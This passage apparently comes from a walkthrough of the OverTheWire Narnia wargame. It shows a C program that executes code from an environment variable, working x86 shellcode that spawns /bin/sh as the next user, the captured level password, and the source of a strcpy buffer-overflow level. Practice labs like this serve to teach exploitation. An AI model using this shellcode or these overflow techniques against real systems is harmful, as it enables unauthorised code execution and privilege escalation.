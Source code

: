 Source
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

A function pointer is set with the address of the environment variable we provide. The function is then called.
Put shellcode in an env variable, which is then executed.
```bash
narnia1@narnia:/narnia$ export EGG=$(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```

## Narnia2 - password: nairiepecu

-> buffer overflow with no restrictions
```bash
ssh narnia2@narnia.labs.overthewire.org -p 2226
```

Source
```c
#include <stdio.h>
#include <string.h>	
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
